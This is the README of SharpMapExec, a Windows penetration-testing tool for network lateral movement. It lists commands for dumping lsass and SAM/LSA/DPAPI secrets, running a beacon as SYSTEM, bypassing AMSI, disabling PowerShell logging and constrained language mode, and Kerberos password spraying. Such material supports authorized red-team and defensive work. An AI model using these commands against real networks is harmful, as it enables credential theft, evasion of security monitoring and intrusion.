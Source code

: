 # SharpMapExec

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.



Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.



You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, the tool will use [SharpKatz](https://github.com/b4rtik/SharpKatz) `SetThreadToken` or  `LogonUser` impersonation.

```
SharpMapExec.exe
  usage:

    --- Cim ---
        Need plaintext password or the /impersonate flag
        SharpMapExec.exe ntlm cim /user:USER /password:PASSWORD /computername:TARGET

       Available Cim modules
          /m:enable_winrm                             (Runs Enable-PSRemoting -Force)
          /m:disable_winrm                            (Runs Disable-PSRemoting -Force)
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:disable_pslogging                        (Modify registry to disable PowerShell Logging)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Reg32 ---
        SharpMapExec.exe ntlm reg32 /user:USER /ntlm:HASH /computername:TARGET
        SharpMapExec.exe kerberos reg32 </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Reg32 modules
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Smb modules
          /m:shares                                   (Scan for accessible Smb shares)

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:comsvcs                                  (Dump & parse lsass)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute local C# assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute local C# assembly as System in memory)
          /m:assembly /p:getMailBox.exe /delegwalk    (Execute local C# assembly in all unique delegation processes in memory)
          /m:download /path:C:\file /destination:file (Download file from host)
          /m:upload   /path:C:\file /destination:file (Upload file to host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg

    --- Ldap ---
        SharpMapExec.exe ntlm domain /user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE
        SharpMapExec.exe kerberos ldap </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE | /ticket:TICKET.Kirbi>

       Ldap modules
          /m:spraydata                                (Download user and password policy)
```

### Smb

Can be used to scan for admin access, accessible Smb shares, Smb version and relay signing.

````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Ldap

Download necessary data before pw spraying

```
/m:spraydata                                (Download user and password policy)
```



### Example usage

For easy or mass in-memory execution of C# assemblies

![](images/mass_assembly.png)

Kerberos password spraying then scanning for local admin access

![](images/spray+admin.png)

This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.

![](images/jea.png)

Discover local admin password reuse with an NT hash.

![](images/localadmin.png)

Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder

![](images/lsassdump.png)

Executes in all delegation processes sorted by unique by users

![](images/delegwalk.png)

Scan for SMB signing and SMBv1

![](images/smbvscan.png)

And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```





### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)              [@Harmj0y](https://twitter.com/harmj0y)
* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)      [@Harmj0y](https://twitter.com/harmj0y)
* [SharpKatz](https://github.com/b4rtik/SharpKatz)         [@b4rtik](https://twitter.com/b4rtik)
* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)
* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
* [Pingcastle ](https://github.com/vletoux/pingcastle)         [@mysmartlogon](https://twitter.com/mysmartlogon)
* [SharpSpray](https://github.com/jnqpblc/SharpSpray)


